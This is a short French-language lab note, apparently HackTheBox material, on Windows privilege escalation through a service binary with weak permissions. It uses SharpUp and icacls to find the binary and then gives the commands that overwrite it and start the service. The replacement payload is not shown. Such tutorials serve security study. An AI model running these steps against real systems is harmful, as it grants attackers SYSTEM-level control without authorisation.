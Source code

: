 # Permissive File System ACL

### <mark style="color:red;">Permissive File System ACL</mark>

#### <mark style="color:green;">Exécution de SharpUp</mark>

Nous pouvons utiliser SharpUp de la suite d'outils GhostPack pour vérifier les binaires de service souffrant d'ACLs faibles.

```powershell
PS C:\htb> .\SharpUp.exe audit
```

L'outil identifie le PC Security Management Service, qui exécute le binaire SecurityService.exe lorsqu'il est démarré.

#### <mark style="color:green;">Vérification des permissions avec icacls</mark>

{% code fullWidth="true" %}
```powershell
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
```
{% endcode %}

<table data-full-width="true"><thead><tr><th>🔧 Type d’ACL</th><th>📂 ACL système de fichiers</th><th>🧱 ACL dans Active Directory</th></tr></thead><tbody><tr><td>📌 Où ?</td><td>Sur les fichiers, dossiers, services, registres...</td><td>Sur les objets AD : utilisateurs, groupes, ordinateurs, OU, GPO...</td></tr><tr><td>📜 Stockage</td><td>Dans le <strong>NTFS</strong> (fichier + registre)</td><td>Dans la <strong>base AD</strong> (NTDS.dit)</td></tr><tr><td>🧑 Autorisations</td><td>Contrôle qui peut lire, écrire, exécuter, modifier un fichier ou un service</td><td>Contrôle qui peut réinitialiser un mot de passe, déléguer des droits, modifier des attributs</td></tr><tr><td>🔐 Format</td><td>DACLs (Discretionary ACLs) → liste de permissions NTFS</td><td>DACLs (similaires mais appliquées aux objets LDAP/AD)</td></tr><tr><td>📎 Exemple</td><td><code>icacls fichier.txt</code> → montre les groupes qui ont accès</td><td><code>dsacls "OU=IT,DC=entreprise,DC=local"</code> → montre qui contrôle l'OU</td></tr></tbody></table>

#### <mark style="color:green;">Remplacement du binaire de service</mark>

{% code fullWidth="true" %}
```powershell
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```
{% endcode %}
